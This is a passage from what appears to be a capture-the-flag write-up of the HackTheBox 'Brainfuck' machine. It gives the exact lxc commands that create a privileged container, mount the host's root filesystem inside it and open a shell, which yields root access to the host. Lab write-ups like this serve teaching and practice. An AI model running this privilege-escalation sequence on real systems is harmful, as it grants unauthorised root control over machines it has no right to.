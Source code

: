 
Now we are ready to pull of the exploit! 

```bash
lxc image import orestis.tar.bz2 --alias orestisImage
lxc init orestisImage orestisVM -c security.privileged=true
lxc config device add orestisVM realRoot disk source=/ path=r
lxc start orestisVM
lxc exec orestisVM -- /bin/sh
```

![root-51](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Brainfuck/img/root-51.png)


It worked!!! 


By the way, here is the proof that the root flag matches what we solved earlier:

![matches-51.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Brainfuck/img/matches-51.5.png)


From here we can acess the host filesystem at `r/` :

!fs-52](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Brainfuck/img/fs-52.png)
